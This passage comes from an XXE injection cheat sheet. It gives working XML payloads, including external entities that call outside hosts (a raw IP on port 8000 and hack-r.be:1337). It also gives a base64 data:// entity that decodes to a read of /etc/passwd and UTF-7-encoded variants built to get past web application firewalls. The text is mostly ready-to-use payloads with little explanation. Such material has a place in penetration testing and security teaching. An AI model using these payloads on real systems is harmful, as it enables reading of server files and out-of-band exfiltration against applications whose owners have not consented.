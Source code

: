 ```xml
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]>
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```

Another example can be found [here](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2).

## WAF & Protections Bypasses

### Base64

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

This only work if the XML server accepts the `data://` protocol.

### UTF-7

You can use the \[**"Encode Recipe**" of cyberchef here ]\(\[[https://gchq.github.io/CyberChef/index.html#recipe=Encode_text%28'UTF-7](https://gchq.github.io/CyberChef/#recipe=Encode_text%28'UTF-7) %2865000%29'%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4)to]\([https://gchq.github.io/CyberChef/index.html#recipe=Encode_text%28'UTF-7 %2865000%29'%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to](https://gchq.github.io/CyberChef/#recipe=Encode_text%28%27UTF-7%20%2865000%29%27%29&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to)) transform to UTF-7.

```xml
<!xml version="1.0" encoding="UTF-7"?-->
+ADw-+ACE-DOCTYPE+ACA-foo+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-example+ACA-SYSTEM+ACA-+ACI-/etc/passwd+ACI-+AD4-+ACA-+AF0-+AD4-+AAo-+ADw-stockCheck+AD4-+ADw-productId+AD4-+ACY-example+ADs-+ADw-/productId+AD4-+ADw-storeId+AD4-1+ADw-/storeId+AD4-+ADw-/stockCheck+AD4-
```

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```
